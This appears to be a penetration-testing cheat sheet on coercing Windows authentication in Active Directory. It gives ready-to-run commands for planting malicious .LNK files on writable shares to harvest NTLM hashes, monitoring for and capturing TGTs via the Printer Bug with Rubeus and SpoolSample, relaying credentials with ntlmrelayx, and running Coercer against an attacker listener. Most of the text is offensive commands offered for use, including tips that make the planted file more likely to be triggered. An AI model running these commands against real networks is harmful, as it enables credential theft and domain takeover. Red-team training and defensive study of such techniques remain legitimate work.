 # Coercing Authentication

### Harvest NTLMv2/v1 Hashes with Write Access to Shares

The [following example](https://twitter.com/mpgn\_x64/status/1453018750253424643?ref\_src=twsrc%5Etfw%7Ctwcamp%5Etweetembed%7Ctwterm%5E1453018750253424643%7Ctwgr%5E0fe6e46bc61c94f27278793c3b0620a3c2ed5bd6%7Ctwcon%5Es1\_\&ref\_url=https%3A%2F%2Fcdn.iframe.ly%2Fo0HzCyi%3Fapp%3D1) demonstrates performing this attack with CrackMapExec, however, it can also be performed by crafting a custom `.LNK` file.

1\. Enumerate the hosts shares

```bash
crackmapexec smb $ip -u $username -p $password --shares
```

2\. Create a malicious .LNK file calling back to your Responder.py IP

```bash
crackmapexec smb $ip -u $username -p $password -M slinky -o NAME=$share SERVER=[ResponderIP]
```

3\. After waiting and (hopefully) obtaining several NTLM hashes, cleanup the malicious file

```bash
crackmapexec smb $ip -u $username -p $password -M slinky -o NAME=$share SERVER=$responder_ip CLEANUP=True
```

#### Notes

* Put an underscore as the first character in the file name (e.g., `NAME=_bonus.xlsx` and it will put the file at the top of the directory, making it more likely to render and send a hash to the malicious server.&#x20;

### The Printer Bug&#x20;

If a machine that we have compromised is configured with [unconstrained delegation](../../../tactics/credential\_access/steal-or-forge-kerberos-tickets/delegation/unconstrained-delegation.md) we are able to capture any of the TGTs from machines/accounts that have authenticated to it. If we're able to obtain a TGT from a machine account, we can craft service tickets and obtain administrative access to it - this also works for domain controllers.&#x20;

It should be noted that in order to successfully exploit the printer bug, we must have already obtained a session as or valid domain user credentials.&#x20;

#### Enumerate Print Spooler Service

Enumerate Print Spooler service with ItWasAllADream:

```bash
# Enumerate Print Spooler with ItWasALlADream
docker run -it itwasalladream -u $username -p $password -d $domain $target -v

# Enumerate with CrackMapExec
crackmapexec smb $ip -u $username -p $password -M spooler

# Enumerate Print Spooler with Impacket
python rpcdump.py @$target | egrep 'MS-RPRN|MS-PAR'

# SpoolerScan.ps1
.\SpoolerScan.ps1
```

#### Exploiting the Printer Bug with [SpoolSample.exe](https://github.com/leechristensen/SpoolSample)

1\. We first need to monitor for any new TGTs on the system that has unconstrained delegation configured. Rubeus provides us with the handy functionality to accomplish this:

```bash
.\Rubeus.exe monitor /targetuser:$machineaccount /interval:5 /nowrap
```

2\. We can then execute `SpoolSample.exe` on the host to coerce authentication:

```bash
.\SpoolSample.exe $target $attacker
```

3\. After running `SpoolSample.exe` we should then aobserve a TGT on the attacker controlled system.

#### Remotely Exploiting the Printer Bug

* [Dementor.py](https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py)
* [Printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)

Alternatively, we can accomplish this same exploitation path remotely using Impacket's ntlmrelayx to relay the credentials:

```bash
# Exploiting the Printerbug with Dementor.py
dementor.py -d $domain -u $username -p $password $attackerip $targetfqdn

# Exploiting the Printerbug with Printerbug.py
python printerbug.py $domain/$username:$password@$targetfqdn $attackerip

# Relay the authentication attempt to the target server
 ntlmrelayx.py -smb2support -t smb://$targetx
```

### Trigger NTLM Authentication over HTTP

```bash
## https://twitter.com/n00py1/status/1481385989025280000?s=20&t=rMzsQI6ENH2SYVVaTYTqAA
Invoke-WebRequest -UseDefaultCredentials
```

### Coercer

[Coercer](https://github.com/p0dalirius/Coercer) is a Python script which automagically attempt to coerce an arbitrary machine to an attacker controlled device in several ways.

```bash
# Basic use of Coercer.py
Coercer.py -d $domain -u $username -p $password --listener $attackerip --target $targetip
```

### References

{% embed url="https://www.praetorian.com/blog/active-directory-computer-account-smb-relaying-attack/" %}

